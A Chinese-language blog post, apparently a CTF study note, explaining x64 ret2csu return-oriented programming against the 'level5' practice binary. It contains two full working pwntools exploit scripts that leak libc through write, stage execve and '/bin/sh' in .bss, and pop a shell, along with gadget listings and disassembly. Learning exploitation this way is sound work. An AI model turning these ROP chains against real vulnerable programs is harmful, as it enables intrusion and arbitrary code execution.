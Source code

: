 ﻿---
layout:     post
title:      栈溢出基础浅记（2）
subtitle:   中级rop（ret2csu）
date:       2023-10-06
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

这部分的内容主要是针对x64的栈溢出ROP，首先回顾一下x86和x64的函数调用区别。

- x86
  - **函数参数**在**函数返回地址**的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

## [ret2csu]([中级ROP - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#ret2csu))

### wiki里面的方法

官方的exp略加修改为python3的形式：

```
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 我的方法

我的方法和wiki大差不差，利用的ROP略有区别

漏洞位置不再赘述，简单的栈溢出，同样可以通过查看gdb得知输入位置和rbp的距离

 ![16966710635071696671062616.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16966710635071696671062616.png)

需要填充0x80个字节，为了能够修改控制函数的执行，首先要能控制rdi和rsi。

使用ROPgadget寻找pop rdi和rsi，发现都是有的

```
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rdi
0x0000000000400623 : pop rdi ; ret
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rsi
0x0000000000400621 : pop rsi ; pop r15 ; ret
```

> 以下是pop指令与各个寄存器的机器码：
>
> pop rax：0x58
>
> pop rbx：0x5B
>
> pop rcx：0x59
>
> pop rdx：0x5A
>
> pop rsi：0x5E
>
> pop rdi：0x5F
>
> pop rbp：0x5D
>
> pop rsp：0x5C
>
> pop r8：0x41 58
>
> pop r9：0x41 59
>
> pop r10：0x41 5A
>
> pop r11：0x41 5B
>
> pop r12：0x41 5C
>
> pop r13：0x41 5D
>
> pop r14：0x41 5E
>
> pop r15：0x41 5F
>
> 
>
> 特别注意到，pop r8到r15这些寄存器的机器码后面一个字节是和前面的寄存器有重合的，所以可以利用这点，有pop r15,就相当于有了pop rdi。

> 查找libc中函数调用方式：https://elixir.bootlin.com/glibc/glibc-2.35

- payload1：调用write函数输出write_got的地址，从而泄露libc地址

  write(1,write_got)，返回main函数

- payload2：调用read函数将execve_addr和'/bin/sh\x00'写入bss段

  read(0,bss_base)返回main函数

- payload3：一开始是想直接调用execve_addr，执行/bin/sh，但是失败了，因为执行sys_execve时需要rdx为0，没有直接的方法修改rdx，所以使用了类似wiki的方法，具体见下面的exp

```
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./level5')
level5 = ELF('./level5')

write_got = level5.got['write']
read_plt = level5.plt['read']
write_plt = level5.plt['write']
main_addr = level5.symbols['main']
bss_base = level5.bss()
pop_rdi = 0x0000000000400623
pop_rsi_pop_r15 = 0x0000000000400621

payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(1) + p64(pop_rsi_pop_r15) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
# gdb.attach(sh)
sh.recvuntil(b'Hello, World\n')
sh.send(payload)

write_addr = u64(sh.recv(8))
log.success('write_addr ' + hex(write_addr))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))

sh.recvuntil(b'Hello, World\n')
payload= b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(0) + p64(pop_rsi_pop_r15) + p64(bss_base) + p64(0) + p64(read_plt) + p64(main_addr)
sh.send(payload)
sh.send(p64(execve_addr) + b'/bin/sh\x00')
sh.recvuntil(b'Hello, World\n')
# gdb.attach(sh)
# 不能直接用下面的payload，因为执行execve时，进行系统调用时需要rdx为0，我们没有办法控制rdx，经测试此时rdx为0x200，导致execve失败
# payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(bss_base + 8) + p64(pop_rsi_pop_r15) +p64(0) + p64(0) + p64(execve_addr) + p64(main_addr)

# .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54
# .text:0000000000400600                 mov     rdx, r13
# .text:0000000000400603                 mov     rsi, r14
# .text:0000000000400606                 mov     edi, r15d
# .text:0000000000400609                 call    qword ptr [r12+rbx*8]
# .text:000000000040060D                 add     rbx, 1
# .text:0000000000400611                 cmp     rbx, rbp
# .text:0000000000400614                 jnz     short loc_400600

# .text:000000000040061A                 pop     rbx
# .text:000000000040061B                 pop     rbp
# .text:000000000040061C                 pop     r12
# .text:000000000040061E                 pop     r13
# .text:0000000000400620                 pop     r14
# .text:0000000000400622                 pop     r15
# .text:0000000000400624                 retn
# 利用上面的这些指令，可以先通过修改r13,r14,r15间接修改rdx,rsi,rdi分别为0,0,bss_base
# 然后通过修改rbx和r12，使得0x400609调用的函数设置为bss_base中所指的函数，这样就可以执行execve了

loc_400600 = 0x0000000000400600
pop_rbx_rbp_r12_r13_r14_r15 = 0x000000000040061A
# gdb.attach(sh)
payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0) + p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8) + p64(loc_400600)
# 输出payload的长度
log.success('payload3 length ' + str(len(payload)))
sh.send(payload)
sh.interactive()

```

花了一下午时间，也算是有点收获吧~

总的来说，wiki提供了一种通用解法，可以方便的修改多个寄存器，有时候为了快捷，可以优先考虑ret2csu！
